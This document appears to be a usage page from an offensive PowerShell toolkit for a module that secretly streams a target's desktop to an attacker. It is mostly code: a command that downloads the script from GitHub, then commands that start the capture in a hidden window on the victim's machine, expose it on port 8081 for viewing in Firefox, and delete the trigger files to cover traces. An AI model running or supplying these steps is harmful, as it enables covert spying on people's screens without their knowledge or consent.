 ## Stream-TargetDesktop.ps1

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|Stream-TargetDesktop|Stream target desktop live|User Land|Dependencies: firefox browser with MJPEG (attacker)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Stream-TargetDesktop/Stream-TargetDesktop.ps1" -OutFile "Stream-TargetDesktop.ps1"
```

<br />

**execute:**
```powershell
#Build triggers script (remote)
echo "Import-Module -Name $Env:TMP\Stream-TargetDesktop.ps1 -Force"|Out-File -FilePath "$Env:TMP\trigger.ps1" -Encoding ascii -Force
Add-Content -Path "$Env:TMP\trigger.ps1" -Value "TargetScreen -Bind -Port 8081"


#Start capture desktop (remote)
Start-Process -WindowStyle hidden powershell -ArgumentList "-File $Env:TMP\trigger.ps1"

#Access live stream (attacker)
Start firefox on: "http://${RemoteHost}:8081"


#Stop stream (remote)
$StreamPid = Get-Content -Path "$Env:TMP\mypid.log" -EA SilentlyContinue|Where-Object { $_ -ne '' }
Stop-Process -id $StreamPid -EA SilentlyContinue -Force

#CleanUp (remote)
Remove-Item -Path "$Env:TMP\trigger.ps1" -Force
Remove-Item -Path "$Env:TMP\mypid.log" -Force
```
